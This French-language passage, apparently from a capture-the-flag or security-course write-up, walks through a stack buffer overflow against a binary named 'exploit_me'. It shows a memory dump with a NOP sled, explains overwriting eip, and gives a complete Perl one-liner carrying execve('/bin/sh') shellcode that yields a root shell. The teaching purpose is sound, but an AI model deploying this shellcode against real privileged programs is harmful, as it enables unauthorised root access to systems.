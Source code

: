Nous avons remplit notre buffer correctement, sans écraser la valeur de `eip`.

### Exécution du shell code

Pour exécuter notre `shell code`, nous allons écraser la valeur de `eip`, de sorte à rediriger le programme sur notre shell code. Reprenons donc notre stack après notre appel à `strcpy`.
```
0xbffff620:	0xbffff630	0xbffff887	0x00000001	0xb7ec3c49
0xbffff630:	0x90909090	0x90909090	0x90909090	0x90909090
            ^
            NOP
0xbffff640:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff650:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff660:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff670:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff680:	0x90909090	0x90909090	0x90909090	0xeb909090
                                                ^
                                                début du shell code
0xbffff690:	0x76895e1f	0x88c03108	0x46890746	0x890bb00c
0xbffff6a0:	0x084e8df3	0xcd0c568d	0x89db3180	0x80cd40d8
0xbffff6b0:	0xffffdce8	0x69622fff	0x68732f6e	0xb7e45400
                                    ^           ^
                                    fin du      eip
                                    shell code
```
Nous allons rediriger `eip` sur une de nos instructions `NOP`. Cela va permettre au programme d'enchainer les instructions `NOP` jusqu'à atteindre notre `shell code`. Prenons donc une adresse qui tombe sur une instructions `NOP`. Exemple : `0xbffff640`. Nous allons donc rajouter cette adresse à la chaine de caractère qui ira dans notre buffer, de sorte à ce que notre overflow remplace la valeur de `eip` par une adresse `NOP`.
```
`perl -e 'print "\x90"x95 . "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" . "\x50\xf6\xff\xbf"'`
```
En exécutant, hors `gdb`, `exploit_me` avec cet argument, nous somme capable de lancer un `shell` avec les droit administrateurs.
```
./exploit_me `perl -e 'print "\x90"x95 . "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" . "\x50\xf6\xff\xbf"'`
```
